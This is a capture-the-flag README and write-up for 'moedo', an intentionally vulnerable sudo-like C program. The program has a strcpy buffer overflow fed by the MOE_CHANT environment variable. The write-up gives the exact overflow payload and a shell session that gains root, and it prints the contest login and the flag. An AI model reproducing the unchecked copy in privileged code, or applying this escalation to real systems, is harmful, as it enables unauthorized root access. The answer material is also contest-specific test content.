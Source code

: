 # moedo

We've created a moe alternative to sudo called __moedo__.

If you can bypass its moe secuirty you'll be awarded with the flag!

`telnet moe.uctf.ir 7002`
> Username: `mashiro`
> Password: Qh3VRn@23jv43Q

<details>
<summary>__moedo__ source code:</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <grp.h>

#define MOE_ENOUGH 0x30e

int check_moe(int uid)
{
    struct group *moe_group = getgrnam("moe");
    int moeness = 0;

    int ngroups;
    gid_t *groups;

    if (moe_group == NULL)
        return 0;

    ngroups = getgroups(0, NULL);
    groups = malloc(ngroups * sizeof(*groups));
    getgroups(ngroups, groups);
    for (int i = 0; i < ngroups; i++)
    {
        if (groups[i] == moe_group->gr_gid)
        {
            moeness = MOE_ENOUGH;
            break;
        }
    }

    free(groups);
    return moeness;
}

int main(int argc, char *argv[])
{
    uid_t uid = getuid();
    uid_t gid = getgid();
    int moeness = check_moe(uid);

    char *custom_chant = getenv("MOE_CHANT");
    char chant[] = "Moe Moe Kyun!";

    if (argc < 2)
    {
        fputs("Missing command\n", stderr);
        return 1;
    }

    if (custom_chant)
        strcpy(chant, custom_chant);

    printf("UID: %u - GID: %u - Moe: %x\n", uid, gid, moeness);

    if (moeness != MOE_ENOUGH)
    {
        fputs("You're not moe enough!\n", stderr);
        return 1;
    }

    if (setuid(0) != 0)
    {
        perror("setuid() failed");
        return 1;
    }
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }

    return 0;
}
```
</details>

## Write Up

Looking at the source code we see that `custom_chant` string (obtained from `MOE_CHANT` environment variable) is being copied into `chant` buffer without its length being checked. This is a classic case of buffer overflow vulnerability.

```c
    if (custom_chant)
        strcpy(chant, custom_chant);
```

In order to bypass the `moe` group check we have to set the `moeness` variable to `MOE_ENOUGH` (`0x030e`). We can leverage the buffer overflow vulnerability discovered above to overwrite the value of `moeness`.

```c
uid_t uid = getuid();
uid_t gid = getgid();
int moeness = check_moe(uid);

char *custom_chant = getenv("MOE_CHANT");
char chant[] = "Moe Moe Kyun!";
```

`chant` buffer is of length 14 (the length of the string "Moe Moe Kyun!" which is 14). So, to overwrite `moeness` we'll have to set `MOE_CHANT` environment variable to a string of length 26 (sizeof(chant)=14 + sizeof(custom_chant)=8 + sizeof(moeness)=4).

> On x86 machines (the architecture of the server) stack piles __bottom-up__

Let's give it shot:

```
moehost:~$ moedo sh
UID: 1001 - GID: 1001 - Moe: 0
You're not moe enough!

moehost:~$ MOE_CHANT='============================' moedo sh
UID: 1001 - GID: 1001 - Moe: 3d3d
You're not moe enough!
```

Sure enough, we could change the `Moe` value! (`3d` is the hex ASCII for `=`)

But we need to set the value of `moeness` specifically to `0x30e`. To do that we just have to replace the last two characters of our string with 0x0e and 0x03.

> x86 systems are 'little-endian', which means bytes are stored in the reverse order of what we humans are used to.

```
moehost:~$ MOE_CHANT=$'==========================\x0e\x03' moedo sh
UID: 1001 - GID: 1001 - Moe: 30e
==========================
~ # whoami
root
~ # cat /root/flag
uctf{m45h1r0_d1dn7_61v3_up}
~ #
```

## Flag

uctf{m45h1r0_d1dn7_61v3_up}

## Categories

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Steganography

## Points

| Warm up | This Challenge | Evil |
| ------- |:--------------:| ----:|
| 25      | 300-350        | 500  |

## Resources

- No file is shared with the contestants.
- The [dist](dist/) directory contains the files used in the Alpine Linux sandbox.